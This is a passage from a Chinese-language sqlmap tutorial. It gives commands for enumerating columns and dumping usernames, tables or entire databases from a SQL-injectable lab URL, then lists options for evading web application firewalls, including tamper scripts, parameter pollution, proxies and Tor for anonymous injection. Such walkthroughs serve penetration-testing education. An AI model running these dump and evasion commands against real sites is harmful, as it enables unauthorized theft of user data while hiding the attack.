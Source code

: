 爆出指定数据库中指定表的所有列  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzNsgh6FZCTuuHMCibtkWPbicPBciaTa58eN64ia0hIA7cmsmFlS0ibichQtUw/640?wx_fmt=png)

爆出指定数据库指定列下的数据  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUz0FwNsiccouibKtjVOK6KM96E3gAgFq4ynl81VaQCCZF7lRu9zfk1qlFA/640?wx_fmt=png)

爆出该网站数据库中的所有数据  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```

1

![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhHeG4dvLoxYm34O9ebCiby2Mjn5AqPQ3ZEgJtV2YxyovibQUw1Jxd5zan3T0BqiaUyDzticNfV5xxPeg/640?wx_fmt=png)

  

Sqlmap 的高级用法
------------

Sqlmap 在默认情况下除了适用 CHAR() 函数防止出现单引号，没有对注入的数据进行修改。我们可以使用 --tamper 参数对数据进行修改来绕过 WAF 等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过 WAF 的检测规则。Sqlmap 目前官方提供 53 个绕过脚本。

### 探测指定 URL 是否存在 WAF，并且绕过

```
--identify-waf   检测是否有WAF

#使用参数进行绕过

--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候

--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时

--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过

--ignore-proxy    禁止使用系统的代理，直接连接进行注入

--flush-session   清空会话，重构注入

--hex 或者 --no-cast     进行字符码转换

--mobile          对移动端的服务器进行注入

--tor             匿名注入
```
